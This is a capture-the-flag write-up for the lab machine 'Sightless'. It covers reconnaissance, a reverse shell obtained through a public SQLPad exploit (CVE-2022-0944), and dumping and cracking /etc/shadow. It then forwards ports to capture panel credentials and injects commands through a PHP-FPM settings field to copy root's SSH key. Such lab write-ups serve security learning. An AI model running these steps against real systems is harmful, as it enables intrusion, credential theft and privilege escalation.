


Sightless
IP Address: 10.10.11.32
OS: Linux
Difficulty: Easy
Recon
Nmap
sudo nmap -sV -sC 10.10.11.32 -T5 -vv -oA Nmap/Sightless.nmap
Output:
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 63
| fingerprint-strings:
| GenericLines:
| 220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
| Invalid command: try being more creative
|_ Invalid command: try being more creative
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
| 256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=12/29%Time=6770ECF2%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Ports Open:
- 21
- 22
- 80
Added the Ip address to the /etc/hosts file
10.10.11.32 sightless.htb
Website
Looking around the website, we found a link to sqlpad from the source code.
mech-dump --links --absolute --agent-alias='Linux Mozilla' http://sightless.htb/
Adding this URL to the /etc/hosts file.
10.10.11.32 sightless.htb sqlpad.sightless.htb
Now, browsing to the URL in the web browser, we see that we have got a clear access to the web page.
Now, let's search for the exploit of this Application. We do find some vulnerabilities and exploits related to this application.
Exploit
RCE
Let's use this GitHub repository's code for our exploitation.
Clone the repository
git clone https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944.git && cd sqlpad-rce-exploit-CVE-2022-0944 && ls
Now, following the exploit code, let's set up a listener at port 4444 on our local computer.
nc -lvnp 4444
Now, run the exploit in a new terminal.
python3 exploit.py http://sqlpad.sightless.htb <--Attacker's IP Address--> 4444
We get a root Shell!!!! That is SUS!!!!!!!
Analyzing further we get to know that this service was running on a docker container.
Now, the system has two users present in it.
- node
- michael
Let's print out the /etc/passwd and /etc/shadow file and then try to crack the user's password.
cat /etc/passwd
cat /etc/shadow
Now, let's copy the contents of both the files on to our local system in a different terminal and then save the as files passwd and shadow
Now, let's create file crack for cracking the hash of this user using John the Ripper and the rockyou.txt file.
unshadow passwd shadow >> crack
Now, using the tool John the ripper, let's crack the password.
john crack --wordlist=<--Location to the file-->/rockyou.txt

We got the password of the root as well as the michael user!!!
SSH Shell
Now, let's try login into the michael user from shh.
ssh michael@10.10.11.32
WOW!!!!!!! We logged in into the server!!! And we get the flag.
....... after a long search..... and looking through maybe other player's tools (the linpeas.sh), and going through the output of the tool.... I found a service running on port 8080

Now to access that, I port forwarded my system's ports to the server's port.
using my other terminal window, let's port forward the traffic of the port 8080 through our computer.
ssh michael@10.10.11.32 -L 127.0.0.1:8080:127.0.0.1:8080
And now, in our browser, we get the Web Page!!! Sadly.... we don't know any of the username and passwords
Also from the tool's output, we see some of attack vectors for the user john .
According to the Blog here , thought of looking at the other open ports that is only internally accessible and found so many ports to be open.
netstat -nlpt

Now, According to the blog, we need to inspect the network log of the device.
So, now, just port forward the ports again and configured the destinations in the Chrome debugger until a device appeaser.
ssh michael@10.10.11.32 -L <--Port-->:127.0.0.1:<--Port-->
Since, we don't know which port is specified or is being used, I entered all the ports one by one and then tried to get the connection.

Now, Click on Inspect and it will open a window where under the index.php file, you can capture the username and the password of the user.
And now, using the credentials that we got!!! We are loggedIn!!!!
Now examine under PHP --> PHP-FPM which contains features of executing system command in the place holder php-fpm restart command
So, let's add the following command while editing the System default PHP-FPM
cp /root/.ssh/id_rsa /tmp/id_rsa
or
cp /root/root.txt /tmp/root.txt
Then click on save at the bottom of the page.
Now, go to, System --> Setting --> PHP-FPM Here, disable and then enable to execute the commands.
Disabling:
Enabling:
And now, if you go the /tmp directory, you will see the id_rsa file.
Now, using this using the same page, give permission to read the files.
chmod 777 /tmp/root.txt

And then you will get the flag.....